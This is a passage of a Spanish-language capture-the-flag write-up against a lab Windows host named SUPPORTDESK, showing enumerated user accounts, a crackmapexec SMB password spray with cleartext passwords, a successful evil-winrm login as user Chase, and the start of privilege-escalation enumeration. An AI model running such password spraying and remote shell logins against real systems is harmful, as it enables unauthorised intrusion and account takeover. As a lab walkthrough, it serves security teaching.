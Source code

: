 ```bash
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```
Una vez tenido mas usuarios intente nuevamente encontrar credenciales con las claves que ya tenemos.
```bash
crackmapexec smb 10.129.190.183 -u users.txt -p passwords.txt 
SMB         10.129.190.183  445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.129.190.183  445    SUPPORTDESK      [-] SupportDesk\support:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.190.183  445    SUPPORTDESK      [-] SupportDesk\support:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.190.183  445    SUPPORTDESK      [-] SupportDesk\support:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.129.190.183  445    SUPPORTDESK      [-] SupportDesk\Chase:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.190.183  445    SUPPORTDESK      [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d
```
Encontramos la clave de Chase. Despues de probar un poco encontre que el usuario Chase me permite conectarme por winrm lo que significa que Chase esta en el grupo Remote Management Users.
```bash
evil-winrm -i 10.129.190.183 -u 'Chase' -p 'Q4)sJu\Y8qz*A3?d'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Chase\Documents>
```
# Shell como administrator
Enumerando encontre que la maquina tiene Firefox instalado y corriendo en el sistema.
```bash
*Evil-WinRM* PS C:\Program Files> dir


    Directory: C:\Program Files


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        4/21/2019   9:39 AM                Common Files
d-----        4/21/2019  11:00 AM                internet explorer
d-----        2/18/2021   4:21 PM                Mozilla Firefox
d-----        4/22/2019   6:47 AM                PHP
d-----        4/22/2019   6:46 AM                Reference Assemblies
d-----        4/22/2019   6:46 AM                runphp
d-----        2/18/2021   4:05 PM                VMware
d-r---        4/21/2019  11:00 AM                Windows Defender
d-----        4/21/2019  11:00 AM                Windows Defender Advanced Threat Protection
d-----        9/15/2018  12:49 PM                Windows Mail
```